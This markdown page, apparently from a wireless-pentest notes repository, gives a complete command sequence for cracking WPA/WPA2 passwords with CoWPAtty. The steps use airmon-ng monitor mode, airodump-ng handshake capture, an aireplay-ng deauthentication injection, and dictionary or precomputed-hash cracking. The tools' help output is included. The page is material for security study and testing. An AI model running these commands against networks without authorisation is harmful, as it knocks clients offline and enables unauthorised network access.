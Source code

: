 # CoWPAtty Attack (WPA/WPA2)

Use CoWPAtty to crack the password in either dictionary mode (plaintext) or hash mode. The latter is quicker.

## Commands

* Run [setup](../../setup.md) first

```bash
# Install cowpatty/genpmk
sudo apt-get install cowpatty

# Start monitor mode
sudo airmon-ng start wlan0

# Start a screen session with a horizonal split screen

# Start monitor mode but with filters and output saved to PCAP.
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap wlan0mon

# Do one deauth injection attack while still monitoring
sudo aireplay-ng -0 1 -a $BSSID -c $CLIENT wlan0mon

# Wait for the four-way handshake to appear in airodump-ng window.
# Stop airodump-ng when it appears
qq

# Check if four-way handshake is indeed valid
cowpatty -r $PCAP -c

# Crack the password in dictionary mode (slowest)
cowpatty -r $PCAP -f $WORDLIST -s $SSID

# Crack the password in hash mode (fastest)

## Generate a RAINBOW table using a wordlist and filter by SSID
genpmk -f $WORDLIST -d $RAINBOW -s $SSID

## Crack the password with the RAINBOW table and filter by SSID
cowpatty -r $PCAP -d $RAINBOW -s $SSID
```
## References

* [cowpatty](https://www.willhackforsushi.com/?page_id=50)

```text
cowpatty -h
cowpatty 4.8 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Usage: cowpatty [options]

        -f      Dictionary file
        -d      Hash file (genpmk)
        -r      Packet capture file
        -s      Network SSID (enclose in quotes if SSID includes spaces)
        -c      Check for valid 4-way frames, does not crack
        -h      Print this help information and exit
        -v      Print verbose information (more -v for more verbosity)
        -V      Print program version and exit
```

```text
genpmk -h
genpmk 1.3 - WPA-PSK precomputation attack. <jwright@hasborg.com>
Usage: genpmk [options]

        -f      Dictionary file
        -d      Output hash file
        -s      Network SSID
        -h      Print this help information and exit
        -v      Print verbose information (more -v for more verbosity)
        -V      Print program version and exit

After precomputing the hash file, run cowpatty with the -d argument.
```

![fourway-handshake](../../images/fourway-handshake.png)

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [Cowpatty](https://www.willhackforsushi.com/?page_id=50)